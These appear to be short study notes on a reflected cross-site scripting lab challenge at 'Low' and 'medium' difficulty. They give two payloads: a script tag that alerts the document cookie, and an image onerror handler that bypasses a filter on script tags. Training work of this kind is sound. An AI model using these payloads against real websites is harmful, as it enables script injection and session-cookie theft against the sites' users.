 # Low
- basic web form with a field we can fill out.
- input a name into the field and click the "Submit" button, we see the string "Hello [inputted_name]" returned back to us.
- cause an alert popup to occur using this field?
- ```
  <script>alert(document.cookie)</script>
  ```
# medium
- clicking the "View Source" button on the bottom right of the challenge.
- <script> is rejected on this level
- 
- ```
  <img src/onerror=alert('XSS+Reflected')>
  ```
- will work
  
